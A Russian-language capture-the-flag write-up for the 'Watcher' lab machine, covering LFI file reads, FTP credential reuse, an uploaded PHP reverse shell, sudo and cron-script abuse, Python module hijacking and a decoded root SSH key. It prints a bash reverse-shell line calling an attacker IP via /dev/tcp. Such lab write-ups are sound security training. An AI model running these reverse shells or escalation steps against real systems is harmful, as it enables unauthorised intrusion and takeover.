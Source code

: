 # Watcher WriteUp (Medium)✅

Перейдя по ip адресу, мы видим страницу с подставками (?) для посуды

<figure><img src="../.gitbook/assets/image (9) (2) (1).png" alt=""><figcaption></figcaption></figure>

Проверив файл **robots.txt**, мы обнаруживаем 2 файла

<figure><img src="../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

В файле **flag\_1.txt** находится первый флаг🚩

<figure><img src="../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Во втором файле находится записка, но мы не можем прочитать её содержимое, просто перейдя в него с помощью адресной строки

<figure><img src="../.gitbook/assets/image (6) (1) (3).png" alt=""><figcaption></figcaption></figure>

Нажав на картинку на основной странице, в адресной строке появляется html-запрос, используя его, прочитаем содержимое файла **secret\_file\_do\_not\_read.txt**

<figure><img src="../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

В данной записке находится логин и пароль для подключения по протоколу ftp&#x20;

<figure><img src="../.gitbook/assets/image (18) (1).png" alt=""><figcaption></figcaption></figure>

Используя логин и пароль из записки, подключаемся к машине и скачиваем файл **flag\_2.txt**

<figure><img src="../.gitbook/assets/image (4) (4) (1).png" alt=""><figcaption></figcaption></figure>

Выводим содержимое данного файла и получаем второй флаг🚩

<figure><img src="../.gitbook/assets/image (2) (4).png" alt=""><figcaption></figcaption></figure>

Для того, чтобы получить обратную оболочку, нам понадобится эксплуатировать LFI - уязвимость ([подробнее о ней тут](https://github.com/ZHIRspb/Cheatsheet/blob/main/readme/vulnerabilities.md))

Далее нам понадобится **php\_reverse\_shell**. Используя **ftp** соединение, загружаем шелл в директорию **/files**, а затем, подключив слушатель, создаем **html-запрос**, в котором обращаемся к файлу с шеллом, указав полный путь до него&#x20;

<figure><img src="../.gitbook/assets/image (5) (4).png" alt=""><figcaption><p>Отправить данный запрос нужно после подключения слушателя</p></figcaption></figure>

Перейдя в каталог **/var/www/html** мы можем найти папку **more\_secrets\_a9f10a**

<figure><img src="../.gitbook/assets/image (2) (5).png" alt=""><figcaption></figcaption></figure>

В ней и находится текстовый файл с третьим флагом🚩

<figure><img src="../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

Четвертый флаг находится в директории toby, но от лица www-data у нас нет прав, чтобы его узнать

<figure><img src="../.gitbook/assets/image (1) (4).png" alt=""><figcaption></figcaption></figure>

С помощью команды `sudo -l` мы выяснили, что от лица пользователя **toby** мы можем вывести содержимое файла, поэтому, используя команду `sudo -u toby /bin/bash` меняем пользователя на **toby** и выводим четвертый флаг🚩

<figure><img src="../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (3) (3).png" alt=""><figcaption></figcaption></figure>

Записка **note.txt** намекает нам, что в папке **jobs** находится скрипт, который выполняется в определенный период времени (с помощью инструмента **cron**)

<figure><img src="../.gitbook/assets/image (4) (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (9) (2).png" alt=""><figcaption></figcaption></figure>

Добавив в него строку с **bash\_reverse\_shell'ом** с помощью команды `echo 'bash -c "bash -i >& /dev/tcp/10.17.5.130/5555 0>&1''' >>` [`cow.sh`](https://vk.com/away.php?to=http%3A%2F%2Fcow.sh\&cc\_key=) и подключив слушатель, получаем оболочку уже от лица пользователя **mat**, в директории которого находится пятый флаг🚩

<figure><img src="../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

Проверив, что написано в записке, которая находится в той же директории, мы узнаем, что можем запустить некий **python-скрипт** от лица пользователя **will** без пароля&#x20;

<figure><img src="../.gitbook/assets/image (1) (5).png" alt=""><figcaption></figcaption></figure>

Этот скрипт берет некоторые данные из второго python-скрипта **cmd.py**

Содержимое файла **will\_script.py** мы изменить не можем, однако, [стабилизировав оболочку](https://github.com/ZHIRspb/Cheatsheet/blob/main/some-cheatsheets/shell-stabilisation.md), с помощью команды `nano cmd.py` мы имеем право добавить в данный скрипт очередной пейлоад, чтобы получить оболочку от лица пользователя **will**&#x20;

<figure><img src="../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

Заранее подключив слушатель, запускаем **will\_script.py** используя команду:

`sudo -u will /usr/bin/python3 /home/mat/scripts/will_script.py 1` ("1" нам нужна, потому что что скрипт cmd.py принимает значение 1-3 для правильной работы)&#x20;

И получаем шелл от лица пользователя will, а вместе с ним и шестой флаг 🚩

<figure><img src="../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

Проверив каталог **/opt**, мы можем заметить интересную вкладку **backups**, в которой находится файл **key.b64**

<figure><img src="../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

Само расширение даёт нам понять, что данный ключ закодирован с помощью **base64** кодирования

Вставляем содержимое данного файла в **base64** декодер и получаем  **RSA-ключ** для подключения по протоколу **ssh**

<figure><img src="../.gitbook/assets/image (2) (1) (2).png" alt=""><figcaption></figcaption></figure>

Далее создаем файл, в который записываем этот ключ, выдаем ему права с помощью команды `chmod 600 file_name` (600 - чтение и запись)

&#x20;

<figure><img src="../.gitbook/assets/image (1) (2).png" alt=""><figcaption></figcaption></figure>

&#x20;Подключаемся по протоколу **ssh** от имени пользователя **root** используя команду&#x20;

`ssh -i file_name root@machine_ip`

И, наконец, получаем последний флаг🚩

<figure><img src="../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

